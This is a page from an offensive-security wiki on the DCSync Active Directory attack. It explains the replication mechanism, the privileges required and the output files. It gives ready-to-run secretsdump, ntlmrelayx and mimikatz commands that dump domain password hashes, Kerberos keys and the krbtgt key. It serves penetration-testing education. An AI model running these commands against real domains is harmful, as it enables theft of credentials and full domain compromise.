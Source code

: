 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
authors: ShutdownRepo
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../kerberos/forged-tickets/index) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.md) but the practical aspect differ. A DCSync is not a simple copy & parse of the NTDS.dit file, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

This attack requires domain admin privileges to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../dacl/grant-rights.md).

> [!TIP]
> A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.

## Practice

::: tabs

=== UNIX-like

On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md).

```bash
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

The secretsdump script creates the following files.

| File | Content |
| ---------- | --------------------------------------------------- |
| .ntds | LM and NT password hashes |
| .cleartext | Passwords stored using reversible encryption |
| .kerberos | Kerberos keys (DES, AES128 and AES256) |
| .sam | Domain controller's [SAM secrets](sam-and-lsa-secrets.md) |
| .secrets | Domain controller's [LSA secrets](sam-and-lsa-secrets.md) |

This attack can also be operated with a [relayed NTLM authentication](../../ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```


=== Windows

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../kerberos/forged-tickets/golden) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```

:::


> [!TIP]
> For an undocumented reason, Impacket's secretsdump relies on SMB before doing a DCSync (hence requiring a `CIFS/domaincontroller` SPN when using Kerberos tickets) while Mimikatz relies on LDAP before doing the DCSync (hence requiring a `LDAP/domaincontroller` SPN when using Kerberos tickets)

## Resources

[https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync)
